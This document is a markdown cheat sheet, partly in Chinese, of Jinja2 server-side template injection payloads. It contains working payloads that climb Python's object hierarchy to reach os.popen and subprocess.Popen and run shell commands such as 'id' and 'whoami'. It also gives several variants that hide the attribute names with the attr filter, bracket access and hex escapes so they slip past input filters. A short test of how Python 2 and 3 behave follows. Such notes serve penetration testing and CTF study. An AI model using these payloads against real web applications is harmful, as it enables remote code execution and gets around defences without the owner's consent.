 # SSTI


- subprocess.Popen
```
{% for x in ''['__class__']['__base__']['__subclasses__']() %}{% if 'warning' in x['__name__'] %}{{x()['_module']['__builtins__']['__import__']('subprocess').Popen('whoami', shell=True)}}{%endif%}{%endfor%}
```

- os.popen
```
{% for x in ().__class__.__base__.__subclasses__() %}
    {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("id").read()}}
    {%endif%}
{%endfor%}
```


## Jinja2 混淆方式

### 取得 object
```
{{ ().__class__.__base__ }}
```
使用 attr
```
{{ ()|attr('__class__')|attr('__base__') }}
```
使用 `[]`, Python 3 無法用 `['__base__']`
```
{{ ()['__class__']['__base__'] }}
```
使用 hex, Python 3 無法用 `['__base__']`
```
{{ ()['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f'] }}
```
```
{{ ()|attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f')|attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') }}
```




### 自動找到 os.popen

Original
```
{% for x in ().__class__.__base__.__subclasses__() %}
    {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("id").read()}}
    {%endif%}
{%endfor%}
```

使用 `[]` (Python2 only)
```
{% for x in ()['__class__']['__base__']['__subclasses__']() %}
    {% if "warning" in x['__name__'] %}
        {{x()['_module']['__builtins__']['__import__']('os')['popen']("id")['read']()}}
    {%endif%}
{%endfor%}
```

To hex (Python2 only)
```
{% for x in ()['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']() %}
    {% if "\x77\x61\x72\x6e\x69\x6e\x67" in x['\x5f\x5f\x6e\x61\x6d\x65\x5f\x5f'] %}
        {{x()['\x5f\x6d\x6f\x64\x75\x6c\x65']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']("\x69\x64")['\x72\x65\x61\x64']()}}
    {%endif%}
{%endfor%}
```

使用 [] + attr + hex (python2 and python 3)
```
{% for x in ()|attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f')|attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f')|attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() %}
    {% if "\x77\x61\x72\x6e\x69\x6e\x67" in x['\x5f\x5f\x6e\x61\x6d\x65\x5f\x5f'] %}
        {{x()['\x5f\x6d\x6f\x64\x75\x6c\x65']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']("\x69\x64")['\x72\x65\x61\x64']()}}
    {%endif%}
{%endfor%}
```

### Test
template.txt
```
{{ () }}
{{ ().__class__ }}
{{ ().__class__.__base__ }}

{{ () }}
{{ ()['__class__'] }}
{{ ()['__class__']['__base__'] }}
{{ ()|attr('__class__')|attr('__base__') }}
```

Python 2
```
❯ python2 jinja2_test.py template.txt
()
<type 'tuple'>
<type 'object'>

()
<type 'tuple'>
<type 'object'>
<type 'object'>
```

Python 3.11, 注意倒數第二的不是 object
```
❯ python3 jinja2_test.py template.txt
()
<class 'tuple'>
<class 'object'>

()
<class 'tuple'>
tuple['__base__']
<class 'object'>
```


## Reference
https://www.cnblogs.com/hetianlab/p/17273687.html

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
